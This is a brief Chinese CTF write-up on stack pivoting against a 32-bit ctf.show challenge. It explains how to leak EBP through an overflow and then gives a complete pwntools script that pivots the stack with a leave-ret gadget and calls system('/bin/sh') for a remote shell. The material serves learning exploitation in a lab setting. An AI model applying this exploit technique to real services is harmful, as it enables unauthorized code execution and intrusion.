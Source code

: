 # 挑战简介 
栈空间不够怎么办？

# 思路
这一次要学习的是栈空间不足的情况，所要做的栈迁移  

对于栈迁移，我们要构建好合理的leave—ret利用链  

题目读取两次输入，所以我们的思路如下  
- 修改栈指针（ESP/RSP），将程序执行栈从原位置迁移到攻击者控制的内存区域
- 通过栈溢出配合print泄露ebp地址
- 通过动调来获得ebp相对buf的偏移量，从而计算buf地址
- 进行最终的ROP链构造

```
from pwn import *
context(arch="i386", log_level="debug")

p = remote("pwn.challenge.ctf.show",28118)
elf = ELF('D:\edge 下载\pwn')

system = elf.plt['system']

leave = 0x8048766

offset = 0x27

payload1 = b'a'*offset + b'b'

p.recvuntil("codename:")

p.send(payload1)
p.recvuntil("b")

ebp_addr = u32(p.recv(4))
print(hex(ebp_addr))

buf = ebp_addr - 0x38

binsh = buf + 16

payload2 = b'a'*4 + p32(system) + b'aaaa' + p32(binsh) + b'/bin/sh\x00'
payload = payload2.ljust(0x28, b'a') + p32(buf) + p32(leave)

p.send(payload)

p.interactive()
```
